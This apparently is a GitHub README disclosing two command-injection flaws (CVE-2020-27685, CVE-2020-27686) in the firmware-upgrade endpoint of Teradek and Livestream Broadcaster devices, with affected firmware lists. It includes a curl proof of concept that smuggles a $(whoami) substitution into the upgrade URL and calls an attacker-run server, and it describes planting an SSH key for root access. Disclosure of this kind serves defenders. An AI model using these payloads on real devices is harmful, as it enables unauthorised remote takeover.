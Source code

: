 # CVE-2020-27685 - Teradek devices upgrade Remote Code Execution
The endpoint to upgrade a Teradek Device has an option to pass along a http url to download the firmware. The Upgrade endpoint performs a curl/wget request without sanitizing the http url being provided. On the Teradek devices you can set up a login feature to allow only authenticated users upgrade but by default it's not enabled. Originally disclosed to Teradek on October 18th 2019 at 9:53 AM EST.

## Effected device firmwares
* BoltManager - 1.0.5 (Uncertain)
* Bond II (Legacy) - 7.3.14 (EOL)
* Bond Pro (Legacy) - 7.3.14, 7.3.17 (EOL)
* Brik - 7.22 (EOL)
* Colr - 1.2.11 (Pending)
* Clip - 1.1.3 (EOL)
* Cube - 7.3.14 (EOL)
* Cube Pro - 7.3.14 (EOL)
* Slice 600/700 - 8.2.7 (Patched)
* Cube 600/700 - 8.2.7 (Patched)
* Bond 600/700 - 8.2.7 (Patched)
* OMOD - 1.2.10 (Uncertain)
* ServPro - 2.1.4 (Pending)
* Slice - 7.3.14 (EOL)
* Sphere - 1.1.0 (EOL)
* T-Rax - 1.3.5 (Pending)
* T-Rax 700 - 8.2.7 (Patched)
* Vidiu - 3.0.8 (EOL)
* Vidiu Mini - 3.0.8 (EOL)
* Vidiu Go - 3.1.7 (Patched)
* Vidiu Pro - 3.1.7 (Patched)

# CVE-2020-27686 - Livestream Broadcaster devices upgrade Remote Code Execution
Similar to the Teradek upgrade RCE the broadcaster series of devices suffer from the same vulnability but there isn't a way to add authenication to the device to mitigate a bit. Also the Livestream Broadcaster devices have an SSH server enabled which with exploiting you are able to append your own SSH public key to `/root/.ssh/authorized_keys` and login to the device remotely. Orignally disclosed to Livestream/Vimeo on October 17th 2019 at 7:09 PM EST.

## Effected device firmware
* Livestream Broadcaster - 2.1.6
* Livestream Broadcaster Mini - 2.1.6
* Livestream Broadcaster Pro - 2.1.6

# Basic proof of concept
Change the IP address of `172.16.1.1` to the one of the device and the IP Address `172.16.1.5` to one of your attacking device with a HTTP server listening for connections.

NOTE: The following proof of concept doesn't take in count of the authentication of Teradek devices, didn't add due to not having a device to test on.
```
curl -X POST \
'http://172.16.1.1/cgi-bin/upgrade.cgi' \
-d "type=http&uploadfile=http://172.16.1.5:8000/%24%28whoami%29"
```
# Prompted proof of concept
This is a NodeJS proof of concept that sets up a http server then listens for connections and gives you a prompt to send commands to the device.
## Install
First you would need to install the node packages the proof of concept uses.

```
$ npm install
```

## Running proof of concept
Before running the PoC please open `poc.js` to configure the exploit. The proof of concept preps the device so it's possible to run commands remotely by setting the device in preupgrade mode. Afterwards a prompt will be given to run commands.

```
$ node poc.js
```
